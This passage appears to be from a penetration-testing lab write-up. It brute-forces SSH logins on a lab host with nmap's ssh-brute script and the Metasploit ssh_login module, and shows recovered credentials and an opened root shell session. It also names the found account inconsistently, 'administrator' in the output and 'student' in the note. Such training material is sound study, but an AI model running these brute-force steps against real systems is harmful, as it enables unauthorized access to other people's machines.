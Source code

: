 ```bash
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 27 guesses in 6 seconds, average tps: 4.5
```

![nmap ssh-brute](.gitbook/assets/image-20230216152315669.png)

> 📌 *student*'s password is `sunshine`

- Use [`ssh_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh_login/) metasploit module to bruteforce *root*'s password

```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```

```bash
[-] 192.230.83.3:22 - Failed: 'root:'
[!] No active DB -- Credential data will not be saved!
[-] 192.230.83.3:22 - Failed: 'root:!root'
[-] 192.230.83.3:22 - Failed: 'root:Cisco'
[-] 192.230.83.3:22 - Failed: 'root:NeXT'
[-] 192.230.83.3:22 - Failed: 'root:QNX'
[-] 192.230.83.3:22 - Failed: 'root:admin'
[+] 192.230.83.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (192.230.83.2:41621 -> 192.230.83.3:22) at 2023-02-16 14:25:47 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
